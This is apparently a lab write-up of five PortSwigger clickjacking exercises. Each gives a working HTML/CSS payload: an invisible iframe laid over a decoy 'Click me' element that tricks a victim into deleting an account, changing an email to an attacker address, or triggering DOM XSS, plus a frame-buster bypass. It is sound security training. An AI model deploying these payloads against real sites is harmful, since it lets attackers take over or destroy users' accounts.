



# Clickjacking

## Basic clickjacking with CSRF token protection

### Description

This lab contains login functionality and a delete account button that is protected by a CSRF token. A user will click on elements that display the word "click" on a decoy website. 

### Proof of concept

1. Log in and view `my_account`:



```text
<div id="account-content">
    <p>Your username is: wiener</p>
    <form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
        <label>Email</label>
        <input required="" type="email" name="email" value="">
        <input required="" type="hidden" name="csrf" value="O4MwyJB2zDsba2zSUiNUP2mIOXyxqsjd">
        <button class="button" type="submit"> Update email </button>
    </form>
    <form id="delete-account-form" action="/my-account/delete" method="POST">
        <input required="" type="hidden" name="csrf" value="O4MwyJB2zDsba2zSUiNUP2mIOXyxqsjd">
        <button class="button" type="submit">Delete account</button>
    </form>
</div>
```

2. Create payload:
* The iframe `src` URL points to the target website vulnerable page. In this case, the page containing the "Update email" form, and depends on the unique lab-ID.
* An initial opacity of 0.1 to align the iframe actions and adjust the position values.
* Initial `top` and `left` values of resp `300px` and `60px`, to align the "Delete account" button with the "Test me" decoy action.

```text
<style>
    iframe {
        position:relative;
        width:500px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 300px;
        left: 60px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://LAB-ID.web-security-academy.net/my-account"></iframe>
```

3. Go to the exploit server and paste the payload into the `body` field of the form.
4. Click **Store** and then **View exploit**. Hover over "Test me" to make sure the cursor changes to a hand indicating that the `div` element is positioned correctly. If it is not, change the position of the `div` element by modifying the `top` and `left` properties of the style sheet.
5. Change "Test me" to "Click me", set `opacity` to `0.0001`, and click **Store**.


6. And **Deliver exploit to victim**

### Exploitability

To solve the lab, an attacker needs to craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted. An account with credentials `wiener:peter` is available. _Note: The victim will be using Chrome so test your exploit on that browser._

----

## Clickjacking with form input data prefilled from a URL parameter

[This lab](https://portswigger.net/web-security/clickjacking/lab-prefilled-form-input) extends the above `Basic clickjacking with CSRF token protection` lab (above). The goal of the lab is to change the email address of the user by prepopulating a form using a URL parameter and enticing the user to inadvertently click on an "Update email" button. 

### Proof of concept

1. Log in to the account on the target website.
2. Create payload:
* The iframe `src` URL points to the target website vulnerable page. In this case, the page containing the "Update email" form, and depends on the unique lab-ID.
* An initial opacity of 0.1 to align the iframe actions and adjust the position values.
* Initial `top` and `left` values of resp `400px` and `80px` - to align the "Update email" button with the "Test me" decoy action.

```text
<style>
    iframe {
        position:relative;
        width:500px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 400px;
        left: 80;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

3. Go to the exploit server and paste the payload into the `body` field of the form.
4. Click **Store** and then **View exploit**. Hover over "Test me" to make sure the cursor changes to a hand indicating that the `div` element is positioned correctly. If it is not, change the position of the `div` element by modifying the `top` and `left` properties of the style sheet.
5. Change "Test me" to "Click me", set `opacity` to `0.0001`, and click **Store**.



6. And **Deliver exploit to victim**

### Exploitability

An attacker needs to craft some HTML that frames the account page and fools the user into updating their email address by clicking on a "Click me" decoy. An account with credentials `wiener:peter` is available. _Note: The victim will be using Chrome so test your exploit on that browser._

----

## Clickjacking with a frame buster script

### Description

[This lab](https://portswigger.net/web-security/clickjacking/lab-frame-buster-script) is protected by a frame buster which prevents the website from being framed. Can you get around the frame buster and conduct a clickjacking attack that changes the users email address? To solve the lab, craft some HTML that frames the account page and fools the user into changing their email address by clicking on "Click me". 

### Proof of concept

1. Log in to the account on the target website.
2. Create payload:

* The iframe `src` URL points to the target website vulnerable page. In this case, the page containing the "Update email" form, and depends on the unique lab-ID.
* An initial opacity of 0.1 to align the iframe actions and adjust the position values.
* Initial `top` and `left` values of resp `385px` and `80px` - to align the "Update email" button with the "Test me" decoy action.

```text
<style>
    iframe {
        position:relative;
        width:500px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 385px;
        left: 80px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe sandbox="allow-forms" src="https://lab-id.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

3. Go to the exploit server and paste the payload into the `body` field of the form.
4. Click **Store** and then **View exploit**. Hover over "Test me" to make sure the cursor changes to a hand indicating that the `div` element is positioned correctly. If it is not, adjust the position of the div element by modifying the `top` and `left` properties of the style sheet. 
5. Change "Test me" to "Click me", set `opacity` to `0.0001`, and click **Store**.



6. **Deliver exploit to victim**

### Exploitability

An attacker needs to change another user's email address. You can log in to your own account using the following credentials: `wiener:peter`. _Note: The victim will be using Chrome so test the exploit on that browser._

----

## Exploiting clickjacking vulnerability to trigger DOM-based XSS

### Description

[This lab](https://portswigger.net/web-security/clickjacking/lab-exploiting-to-trigger-dom-based-xss) contains an XSS vulnerability that is triggered by a click. 

### Proof of concept

1. Log in to the account on the target website.
2. Create payload:

* The iframe `src` URL points to the target website vulnerable page. In this case, the `/feedback` page, and depends on the unique `lab-id`.
* An initial opacity of 0.1 to align the iframe actions and adjust the position values.
* Initial `$top_value` and `$side_value` values of resp `610px` and `80px` to align the "Submit feedback" button with the "Test me" decoy action.

```text
<style>
	iframe {
		position:relative;
		width:$width_value;
		height: $height_value;
		opacity: $opacity;
		z-index: 2;
	}
	div {
		position:absolute;
		top:$top_value;
		left:$side_value;
		z-index: 1;
	}
</style>
<div>Test me</div>
<iframe src="lab-id.web-security-academy.net/feedback?name=&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```

3. Go to the exploit server and paste the payload into the `body` field of the form.
4. Click **Store** and then **View exploit**. Hover over "Test me" to make sure the cursor changes to a hand indicating that the `div` element is positioned correctly. If it is not, adjust the position of the div element by modifying the `top` and `left` properties of the style sheet. 
5. Change "Test me" to "Click me", set `opacity` to `0.0001`, and click **Store**.
6. **Deliver exploit to victim**

### Exploitability

An attacker needs to construct a clickjacking attack that fools the user into clicking the "Click me" button to call the `print()` function.  _Note: The victim will be using Chrome so test your exploit on that browser._

## Multistep clickjacking

### Description

[This lab](https://portswigger.net/web-security/clickjacking/lab-multistep) has some account functionality that is protected by a CSRF token and also has a confirmation dialog to protect against clickjacking.

### Proof of concept

1. Log in to the account on the target website.
2. Create payload:

* The iframe `src` URL points to the target website vulnerable page. In this case, the target website's user account page, and depends on the unique `lab-id`.
* An initial opacity of 0.1 to align the iframe actions and adjust the position values.
* Initial `$top_value1` and `$side_value1` values of resp `330px` and `50px` to align the "Delete account" button with the "Test me first" decoy action.
* Initial `$top_value2` and `$side_value2` variables of resp. `285px` and `225px` to align the "Test me next" decoy action with the "Yes" button on the confirmation page. 

```text
<style>
	iframe {
		position:relative;
		width:$width_value;
		height: $height_value;
		opacity: $opacity;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:$top_value1;
		left:$side_value1;
		z-index: 1;
	}
   .secondClick {
		top:$top_value2;
		left:$side_value2;
	}
</style>
<div class="firstClick">Test me first</div>
<div class="secondClick">Test me next</div>
<iframe src="lab-id.web-security-academy.net/my-account"></iframe>
```

3. Go to the exploit server and paste the payload into the `body` field of the form.
4. Click **Store** and then **View exploit**. Hover over "firstClick" to make sure the cursor changes to a hand indicating that the `div` element is positioned correctly. If it is not, adjust the position of the div element by modifying the top and left properties inside the `firstClick` class of the style sheet. 
5. Click **Test me first** then hover over **Test me next** and ensure the cursor changes to a hand indicating that the div element is positioned correctly. If it is not, adjust the position of the div element by modifying the `top` and `left` properties inside the `secondClick` class of the style sheet. 
5. Change "Test me first" to "Click me first", "Test me next" to "Click me next", set `opacity` to `0.0001`, and click **Store**.
6. **Deliver exploit to victim**

### Exploitability

An attacker needs to construct an attack that fools the user into clicking the delete account button and the confirmation dialog by clicking on "Click me first" and "Click me next" decoy actions. The attacker will need to use two elements. An account is available with credentials `wiener:peter`.  _Note: The victim will be using Chrome so test the exploit on that browser._
